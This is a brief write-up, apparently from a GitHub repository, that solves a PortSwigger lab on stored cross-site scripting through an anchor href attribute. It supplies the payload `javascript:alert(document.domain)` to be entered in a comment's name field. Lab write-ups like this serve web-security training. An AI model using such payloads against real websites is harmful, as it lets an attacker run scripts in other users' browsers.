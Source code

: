 # Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

## This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

### payload `<a href="javascript:alert(document.domain)">`

---

### step 1

![screenshot](images/lab8_test_post.jpg)

submit form

![screenshot](images/lab8_inspect_test.jpg)

payload is

```javascript
<a href="javascript:alert(document.domain)">
```

use `javascript:alert(document.domain)` into input name field

and submit
